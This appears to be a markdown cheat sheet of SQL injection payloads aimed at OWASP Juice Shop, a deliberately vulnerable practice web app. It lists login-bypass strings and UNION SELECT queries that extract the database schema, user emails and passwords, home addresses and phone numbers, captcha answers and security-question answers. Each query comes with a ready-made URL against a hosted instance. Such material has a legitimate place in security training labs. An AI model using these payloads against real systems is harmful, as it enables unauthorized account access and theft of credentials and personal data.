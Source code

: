 # Logging In

Basic SQL Injection for logging in as the first user in the database:

`' OR 1=1;--`

Log in as a user with an email similar to 'jim':

`' OR 1=1 AND email LIKE('%jim%');--`

# Data Exfiltration

## Stealing the Schema

SQL Statement:

`qwert')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20sql,%20%272%27,%20%273%27,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20sqlite_master--

## Stealing emails and passwords

SQL Statement:

`qwert')) UNION SELECT email, password, '3', '4', '5', '6', '7', '8', '9' FROM Users--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20email,%20password,%20%273%27,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Users--

## Stealing names, addresses, and mobile numbers

SQL Statement:

`qwert')) UNION SELECT fullName, streetAddress, city, country, mobileNum, '6', '7', '8', '9' FROM Addresses--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20fullName,%20streetAddress,%20%27city%27,%20%27country%27,%20%27mobileNum%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Addresses--

## Stealing captcha questions and answers

SQL Statement:

`qwert')) UNION SELECT captcha, answer, '3', '4', '5', '6', '7', '8', '9' FROM Captchas--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20captcha,%20answer,%20%273%27,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Captchas--

## Stealing security questions and answers

SQL Statement:

`qwert')) UNION SELECT q.question, a.answer, a.UserID, '4', '5', '6', '7', '8', '9' FROM SecurityQuestions q INNER JOIN SecurityAnswers a ON q.id = a.id--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20q.question,%20a.answer,%20a.UserID,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20SecurityQuestions%20q%20INNER%20JOIN%20SecurityAnswers%20a%20ON%20q.id%20=%20a.id--